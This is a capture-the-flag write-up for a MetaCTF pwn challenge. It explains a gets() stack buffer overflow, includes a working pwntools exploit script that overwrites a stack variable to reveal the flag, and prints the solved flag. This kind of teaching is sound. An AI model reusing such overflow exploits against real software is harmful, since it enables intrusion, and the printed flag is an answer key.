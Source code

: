 # How Cool Are You? - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/HowCoolAreYou.gif)

---

## Challenge Summary

This program calculates a random "coolness" score for the user and asks for their name. It uses the unsafe `gets()` function to read the username, which allows a buffer overflow vulnerability.

To get the flag, you need to overwrite the `your_estimated_coolness` variable’s value with the magic number `1500000001`. This will trigger the special condition that prints the flag stored in the environment variable `FLAG`.

The main exploit vector is a classic **stack-based buffer overflow** via the `gets()` call, allowing you to overwrite adjacent variables on the stack.

## Binary Information

```bash
$ file chal
```

![Alt text](img/2.png)

```bash
$ pwn checksec chal
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Using CLion, we can easily inspect the program logic and identify the vulnerability:

### Key Observations:

- **User input is read using `gets(your_name);`**, which is an unsafe function that **does not perform bounds checking**. This allows overflowing the 64-byte `your_name` buffer.
  ![Alt text](img/4.png)
- The next variable on the stack after `your_name` is `your_estimated_coolness` — an `int` that determines if the flag is printed.

- The **coolness value is assigned before the `gets()` call**, which means a crafted input can overwrite it with a specific value: `1500000001`.

- The program checks for an **exact match** with that value to reveal the flag via `getenv("FLAG")`.
  ![Alt text](img/5.png)

---

## Exploit Strategy

This challenge relies on a classic **stack-based buffer overflow**. By overflowing a local buffer (`your_name`), we can overwrite an adjacent variable (`your_estimated_coolness`) on the stack.

To solve the challenge, we supply carefully crafted input that:

- Fills the buffer completely.
- Overwrites the coolness value with the exact number required to pass the check (`1500000001`).

No need for shellcode or control flow hijacking—just simple memory corruption to meet a condition.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chal --host kubenode.mctf.io --port 30005
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30005)

env_vars = {
        "FLAG":"MetaCTF{dummy_flag}"
}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env=env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 76
payload = flat (
        b'A' * offset,
        p64(0x59682f01)
)
io.sendline(payload)
io.recvuntil(b"Oh, right, here's the flag: ")
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program uses the unsafe [`gets()`](w) function to read user input into a fixed-size buffer (`your_name[64]`). Since `gets()` performs **no bounds checking**, an attacker can overflow the buffer and overwrite adjacent stack variables.

The adjacent variable, `your_estimated_coolness`, controls access to the flag. By overflowing `your_name` and setting this variable to `1500000001`, the attacker can bypass the check and print the flag—making this a classic **stack buffer overflow** vulnerability.

---

## Flag

```
MetaCTF{oh_w0w_y0ur3_pr3tty_c00l_aft3r_a11}
```
